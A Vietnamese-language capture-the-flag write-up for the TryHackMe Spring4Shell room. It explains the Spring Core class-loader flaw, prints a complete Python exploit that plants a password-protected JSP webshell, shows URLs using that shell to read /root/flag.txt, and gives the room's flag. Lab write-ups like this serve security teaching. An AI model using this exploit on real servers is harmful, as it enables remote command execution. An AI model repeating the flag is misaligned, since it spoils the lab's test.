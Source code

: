 - link bt: https://tryhackme.com/room/spring4shell<br>

*. task 1<br>
- lỗ hổng: Spring4Shell ảnh hưởng đến 1 thành phần trong Spring Core <br>

*. task 2<br>
- lỗ hổng này cho phép kẻ tấn công tải 1 webshell (đoạn mã chấp nhận lệnh từ kẻ tấn công mà máy chủ web sau đó bị lừa thực thi) lên máy chủ dễ bị tấn công, thực hiện lệnh từ xa
- spring mvc là 1 phần của spring framework: nó can tự động khởi tạo và điền vào 1 đối tượng của 1 lớp đc chỉ định khi yêu cầu đc thực hiện trên các tham số đc gửi đến điểm cuối
- -> can lợi dụng để ghi đè
- Spring4Shell: buộc ứng dụng ghi 1 tệp .jsp độc hại vào máy chủ web -> thực thi lệnh từ xa<br>

*. task 3<br>
- nội dung tệp exploit.py<br>
```
┌──(root㉿kali)-[/home/kali/Downloads]
└─# cat exploit.py                    
#!/usr/bin/env python3
# Spring4Shell Exploit
# Original Exploit: https://github.com/BobTheShoplifter/Spring4Shell-POC/
# Modified by: AG | MuirlandOracle

import requests
import argparse
from urllib.parse import urljoin

def exploit(url, filename, password, directory):
    headers = {"suffix":"%><!--//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"
    }

    data = f"class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22{password}%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/{directory}&class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="


    try:
        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, f"{filename}.jsp")
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"Shell Uploaded Successfully!\nYour shell can be found at: {shellurl}?pwd={password}&cmd=whoami")
        else:
            print("Exploit failed to upload")
    except Exception as e:
        print(e)
        pass




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Spring4Shell RCE Proof of Concept')
    parser.add_argument('url', help='Target URL')
    parser.add_argument("-f","--filename", help="Name of the file to upload (Default tomcatwar.jsp)", default="tomcatwar.jsp")
    parser.add_argument("-p","--password", help="Password to protect the shell with (Default: thm)", default="thm")
    parser.add_argument("-d","--directory", help="The upload path for the file (Default: ROOT)", default="ROOT")
    args = parser.parse_args()
    exploit(args.url, args.filename.split(".")[0], args.password, args.directory)
```

1. What is the flag in /root/flag.txt?<br>
- truy cập: http://10.10.125.191/tomcatwar.jsp?pwd=thm&cmd=whoami
- sau đó truy cập: http://10.10.125.191/tomcatwar.jsp?pwd=thm&cmd=cat /root/flag.txt<br>

As: THM{NjAyNzkyMjU0MzA1ZWMwZDdiM2E5YzFm}

